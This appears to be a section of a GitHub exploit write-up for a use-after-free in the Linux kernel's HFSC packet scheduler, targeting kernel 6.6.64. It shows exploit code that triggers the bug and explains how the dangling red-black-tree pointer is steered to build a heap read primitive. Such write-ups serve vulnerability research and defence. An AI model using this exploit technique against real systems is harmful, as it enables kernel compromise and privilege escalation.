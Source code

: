 ## Describe function `heap_read_primitive_build_primitive()`
[[exploit.c#L1089]](../exploit/lts-6.6.64/exploit.c#L1089)
### Step1: Trigger uaf primitive [[exploit.c#L1095]](../exploit/lts-6.6.64/exploit.c#L1095)
```c
prepare_uaf(
	heap_read_primitive->route_socket,
	heap_read_primitive->raw_packet_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_qdisc_B_handle,
	heap_read_primitive->rb_tree_interface_qdisc_C_handle,
	heap_read_primitive->rb_tree_interface_classid_A
);

trigger_uaf(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_classid_A
);
```

- Take a look at kernel function `eltree_insert()`:
```c
static void
eltree_insert(struct hfsc_class *cl)
{
	struct rb_node **p = &cl->sched->eligible.rb_node;
	struct rb_node *parent = NULL;
	struct hfsc_class *cl1;

	while (*p != NULL) {
		parent = *p;
		cl1 = rb_entry(parent, struct hfsc_class, el_node);
		if (cl->cl_e >= cl1->cl_e)
			p = &parent->rb_right;
		else
			p = &parent->rb_left;
	}
	rb_link_node(&cl->el_node, parent, p);
	rb_insert_color(&cl->el_node, &cl->sched->eligible);
}
```

- The dangling pointer is `cl->sched->eligible.rb_node` and has type `struct rb_node`.
- This pointer actually point at `el_node` member of `struct hfsc_class` object.
- `struct hfsc_class` object is allocated on kmalloc-1024.
- `->cl_e` member will decide which pointer is touched: `->rb_right` or `->rb_left`.
- I will refer to `struct rb_node` object as `UAF_rb_node`.
- I will refer to `struct hfsc_class` object as `UAF_hfsc_class`.
- I will refer to the qdisc that have UAF pointer as `Victim_Qdisc`.
- Important note: further process is setup in such a way that every time `eltree_insert()` is triggered, we always follow `->rb_right`.
